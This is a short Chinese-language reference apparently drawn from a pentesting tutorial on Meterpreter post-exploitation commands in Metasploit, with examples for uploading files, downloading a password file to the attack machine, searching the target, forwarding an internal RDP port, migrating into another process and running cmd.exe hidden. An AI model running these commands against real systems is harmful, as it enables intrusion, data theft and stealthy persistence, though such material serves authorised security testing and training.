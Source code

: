 ## 一、介绍

```php
	在Metasploit Framework中，Meterpreter是一款后渗透工具，属于一种在运行过程中可通过网络进行功能扩展的动态可扩展型Payload。这种工具基于"内存DLL注入"理念实现的，它能够通过创建一个新进程并调用注入的DLL来让目标系统运行注入的DLL文件。
```



## 二、常用命令

### 1、getwd

```php
# 解释
	可以获取当前目标机器的工作目录，也可以获取当前系统的工作目录。
```

```php
# 实例
	getwd
	getlwd
```

### 2、upload

```php
# 解释
	可以上传文件或文件夹到目标机器。
```

```php
# 实例
	upload /root/tcp_client.py d:\\
```

### 3、download

```php
# 解释
	从目标机器上下载文件夹或者文件到攻击机。
```

```php
# 实例
	download password.txt /root
```

### 4、search

```php
# 解释
	支持对远程目标机器上的文件进行搜索。
```

```php
# 实例
	search -d d:\\ -r false -f *.txt
```

### 5、portfwd

```php
# 解释
	meterpreter内嵌的端口转发器，一般在目标主机开放的端口不允许直接访问的情况下使用；比如当目标主机开放的远程桌面3389端口只允许内网访问，这时可以使用portfwd命令进行端口转发，以达到直接访问目标主机的目的。
```

```php
# 实例
	portfwd add -l 1234 -r 192.168.174.138 -p 3389
```

### 6、route

```php
# 解释
	查看路由
```

### 7、ps

```php
# 解释
	获取目标主机上正在运行的进程信息。
```

### 8、migrate

```php
# 解释
	将当前meterpreter会话从一个进程移植到另外一个进程的内存空间中
```

```php
# 实例
	migrate 11111
```

### 9、execute

```php
# 解释
	可以在目标中执行文件
```

```php
# 实例
	execute -H -i -f cmd.exe
```

